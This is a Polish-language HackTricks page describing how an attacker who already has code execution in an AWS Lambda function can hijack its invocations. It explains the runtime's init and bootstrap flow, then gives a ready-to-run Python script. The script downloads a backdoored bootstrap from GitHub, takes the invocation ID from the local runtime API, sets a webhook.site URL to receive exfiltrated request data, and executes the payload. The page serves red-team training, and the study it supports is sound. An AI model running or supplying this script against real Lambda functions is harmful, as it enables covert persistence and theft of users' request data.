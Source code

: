 # AWS - Ukradnij żądania Lambda

<details>

<summary><strong>Nauka hakowania AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) na GitHubie.

</details>

## Przepływ Lambda

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** to proces poza kontenerem, który **wysyła wywołania** do procesu **init**.
2. Proces init nasłuchuje na porcie **9001**, ujawniając kilka interesujących punktów końcowych:
* **`/2018-06-01/runtime/invocation/next`** – pobierz następne zdarzenie wywołania
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – zwróć odpowiedź obsługującą wywołanie dla invoke
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – zwróć błąd wykonania
3. **bootstrap.py** ma pętlę pobierającą wywołania od procesu init i wywołuje kod użytkownika do ich obsługi (**`/next`**).
4. W końcu **bootstrap.py** wysyła do init **odpowiedź**.

Należy zauważyć, że bootstrap ładuje kod użytkownika jako moduł, więc wszelkie wykonania kodu wykonywane przez kod użytkownika faktycznie mają miejsce w tym procesie.

## Kradzież żądań Lambda

Celem tego ataku jest zmuszenie kodu użytkownika do wykonania złośliwego procesu **`bootstrap.py`** wewnątrz procesu **`bootstrap.py`**, który obsługuje podatne żądanie. W ten sposób **złośliwy proces bootstrap** rozpocznie **komunikację z procesem init** w celu obsługi żądań, podczas gdy **uczciwy** bootstrap jest **uwięziony** uruchamiając złośliwy, więc nie będzie prosił o żądania do procesu init.&#x20;

Jest to proste zadanie do osiągnięcia, ponieważ kod użytkownika jest wykonywany przez uczciwy proces **`bootstrap.py`**. W związku z tym atakujący mógłby:

* **Wysłać fałszywy wynik bieżącego wywołania do procesu init**, aby init myślał, że proces bootstrap czeka na więcej wywołań.
* Należy wysłać żądanie do **`/${invoke-id}/response`**&#x20;
* Identyfikator invoke można uzyskać z stosu uczciwego procesu **`bootstrap.py`** za pomocą modułu pythona [**inspect**](https://docs.python.org/3/library/inspect.html) (jak [zaproponowano tutaj](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) lub po prostu ponownie żądając go do **`/2018-06-01/runtime/invocation/next`** (jak [zaproponowano tutaj](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Wykonaj złośliwy **`boostrap.py`**, który będzie obsługiwał kolejne wywołania
* W celu zachowania dyskrecji można przesłać parametry wywołań lambda do kontrolowanego przez atakującego C2, a następnie obsługiwać żądania jak zwykle.
* Dla tego ataku wystarczy uzyskać oryginalny kod **`bootstrap.py`** z systemu lub [**githuba**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), dodać złośliwy kod i uruchomić go z bieżącego wywołania lambdy.

### Kroki ataku

1. Znajdź podatność na **RCE**.
2. Wygeneruj **złośliwy** **bootstrap** (np. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Wykonaj** złośliwy bootstrap.

Możesz łatwo wykonać te czynności, uruchamiając:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Get invocation id
resp = http.request("GET", "127.0.0.1:9001/2018-06-01/runtime/invocation/next")
invoke_id = resp.headers["Lambda-Runtime-Aws-Request-Id"]

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Dla dalszych informacji sprawdź [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Referencje

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF** sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**Grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
